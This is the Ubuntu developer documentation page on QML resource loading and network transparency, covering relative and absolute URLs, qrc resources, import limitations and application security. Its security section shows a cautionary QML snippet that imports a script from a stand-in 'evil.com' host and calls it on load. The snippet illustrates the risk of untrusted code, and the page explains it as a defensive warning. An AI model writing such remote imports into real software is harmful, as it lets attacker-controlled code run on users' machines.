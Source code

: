 <a href="https://developer.ubuntu.com/" class="logo-ubuntu"><img src="https://developer.ubuntu.com/assets/sites/ubuntu/latest/u/img/logos/logo-ubuntu-orange.svg" width="106" height="25" /> <span>developer</span></a>

-   [Jump to content](index.html#main-content)
-   [Desktop](https://developer.ubuntu.com/en/desktop/)
-   [Phone](https://developer.ubuntu.com/en/phone/)
-   [Core](https://developer.ubuntu.com/core)
-   [Community](https://developer.ubuntu.com/en/community/)
-   [Publish](https://developer.ubuntu.com/en/publish/)
-   [My Apps](https://myapps.developer.ubuntu.com/)

Search

<img src="https://developer.ubuntu.com/assets/sites/ubuntu/latest/u/img/search-white.svg" alt="Search" height="28" />

-   [APIs](../../../../index.html) ›
-   [Apps](../../../index.html) ›
-   [QML](../../index.html) ›
-   <a href="../index.html" class="sub-nav-item">SDK 15.04.5</a> ›
-   <a href="../QtQml/index.html" class="sub-nav-item">QtQml</a> ›

<!-- -->

-   Resource Loading and Network Transparency

Resource Loading and Network Transparency
=========================================

<span class="subtitle"></span>
<span id="details"></span>
QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:

``` qml
Image {
    source: "http://www.example.com/images/logo.png"
}
```

Since a *relative* URL is the same as a relative file, development of QML on regular file systems remains simple:

``` qml
Image {
    source: "images/logo.png"
}
```

Network transparency is supported throughout QML, for example:

-   Fonts - the `source` property of FontLoader is a URL
-   WebViews - the `url` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load `http://example.com/mystuff/Hello.qml` and that content refers to a type "World", the engine will load `http://example.com/mystuff/qmldir` and resolve the type just as it would for a local file. For example if the qmldir file contains the line "World World.qml", it will load `http://example.com/mystuff/World.qml` Any other resources that `Hello.qml` referred to, usually by a relative URL, would similarly be loaded from the network.

<span id="relative-vs-absolute-urls"></span>
Relative vs. Absolute URLs
--------------------------

Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.

For example, consider this content in `http://example.com/mystuff/test.qml`:

``` qml
Image {
    source: "images/logo.png"
}
```

The Image source property will be assigned `http://example.com/mystuff/images/logo.png`, but while the QML is being developed, in say `C:\User\Fred\Documents\MyStuff\test.qml`, it will be assigned `C:\User\Fred\Documents\MyStuff\images\logo.png`.

If the string assigned to a URL is already an absolute URL, then "resolving" does not change it and the URL is assigned directly.

<span id="qrc-resources"></span>
QRC Resources
-------------

One of the URL schemes built into Qt is the "qrc" scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:

``` cpp
    QQuickView *view = new QQuickView;
    view->setUrl(QUrl("qrc:/dial.qml"));
```

The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.

<span id="limitations"></span>
Limitations
-----------

The `import` statement is only network transparent if it has an "as" clause.

More specifically:

-   `import "dir"` only works on local file systems
-   `import libraryUri` only works on local file systems
-   `import "dir" as D` works network transparently
-   `import libraryUrl as U` works network transparently

<span id="implications-for-application-security"></span>
Implications for Application Security
-------------------------------------

The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.

In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:

``` qml
import QtQuick 2.0
import "http://evil.com/evil.js" as Evil
Component {
    onLoaded: Evil.doEvil()
}
```

This is equivalent to downloading and executing "http://evil.com/evil.exe". **The QML engine will not prevent particular resources from being loaded**. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.

As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. **Do not, for example, use `import`, Loader or [XMLHttpRequest](../QtQml.qtqml-javascript-qmlglobalobject/index.html#xmlhttprequest) to load any untrusted code or content.**

[Back to top](index.html#)

-   [Desktop](https://developer.ubuntu.com/en/desktop/)
    ---------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/desktop/)
    -   [Get started](http://snapcraft.io/?utm_source=developer.ubuntu.com&utm_medium=devportal&utm_term=snaps%20snapcraft%20desktop&utm_content=menu&utm_campaign=duc_snappers)
    -   [Examples](https://github.com/ubuntu/snappy-playpen)

-   [Phone](https://developer.ubuntu.com/en/phone/)
    -----------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/phone/)
    -   [Scopes](https://developer.ubuntu.com/en/phone/scopes/)
    -   [Apps](https://developer.ubuntu.com/en/phone/apps/)
    -   [Web Apps](https://developer.ubuntu.com/en/phone/web/)
    -   [Platform](https://developer.ubuntu.com/en/phone/platform/)
    -   [Devices](https://developer.ubuntu.com/en/phone/devices/)

-   [Core](https://developer.ubuntu.com/core)
    -----------------------------------------

    -   [Overview](https://developer.ubuntu.com/core)
    -   [Get started](https://developer.ubuntu.com/core/get-started)
    -   [Tutorials](https://developer.ubuntu.com/core/tutorials)
    -   [Examples](https://developer.ubuntu.com/core/examples)
    -   [Publish and distribute](https://developer.ubuntu.com/core/publish-and-distribute)
    -   [Documentation](https://developer.ubuntu.com/core/documentation)
    -   [Troubleshooting](https://developer.ubuntu.com/core/troubleshooting)

-   [Community](https://developer.ubuntu.com/en/community/)
    -------------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/community/)
    -   [App development training](https://developer.ubuntu.com/en/community/training/)
    -   [Core apps](https://developer.ubuntu.com/en/community/core-apps/)
    -   [Blog](https://developer.ubuntu.com/en/community/blog/)

-   [Publish](https://developer.ubuntu.com/en/publish/)
    ---------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/publish/)
    -   [Application states](https://developer.ubuntu.com/en/publish/application-states/)
    -   [Packaging click apps](https://developer.ubuntu.com/en/publish/packaging-click-apps/)
    -   [Creating a good icon](https://developer.ubuntu.com/en/publish/creating-a-good-icon/)
    -   [Web](https://developer.ubuntu.com/en/publish/web/)
    -   [Security policy groups](https://developer.ubuntu.com/en/publish/security-policy-groups/)
    -   [Choosing a license](https://developer.ubuntu.com/en/publish/choosing-a-license/)
    -   [Other forms of submitting apps](https://developer.ubuntu.com/en/publish/other-forms-of-submitting-apps/)
    -   [Scopes](https://developer.ubuntu.com/en/publish/scopes/)

-   View in:
    --------

    -   [English](index.html "Change to language: English")
    -   [Simplified Chinese](index.html "Change to language: Simplified Chinese")

-   [Download](http://ubuntu.com/download/)
    ---------------------------------------

    -   [Overview](http://ubuntu.com/download)
    -   [Cloud](http://ubuntu.com/download/cloud)
    -   [Server](http://ubuntu.com/download/server)
    -   [Desktop](http://ubuntu.com/download/desktop)
    -   [Ubuntu Kylin](http://ubuntu.com/download/ubuntu-kylin)
    -   [Alternative downloads](http://ubuntu.com/download/alternative-downloads)

-   [Support](http://ubuntu.com/support/)
    -------------------------------------

    -   [Overview](http://ubuntu.com/support)
    -   [Security notices](http://www.ubuntu.com/usn/)

-   [About](http://ubuntu.com/about/)
    ---------------------------------

    -   [About Ubuntu](http://ubuntu.com/about/about-ubuntu)
    -   [Careers](http://www.canonical.com/careers)
    -   [Canonical and Ubuntu](http://ubuntu.com/about/canonical-and-ubuntu)
    -   [Contact us](http://ubuntu.com/about/contact-us)
    -   [Canonical news feed](http://insights.ubuntu.com/feed/)

© 2015 Canonical Ltd. Ubuntu and Canonical are registered trademarks of Canonical Ltd.

-   [Legal information](http://www.ubuntu.com/legal)
-   [Report a bug on this site](https://bugs.launchpad.net/developer-ubuntu-com/)

<span class="accessibility-aid">[Go to the top of the page](index.html#)</span>
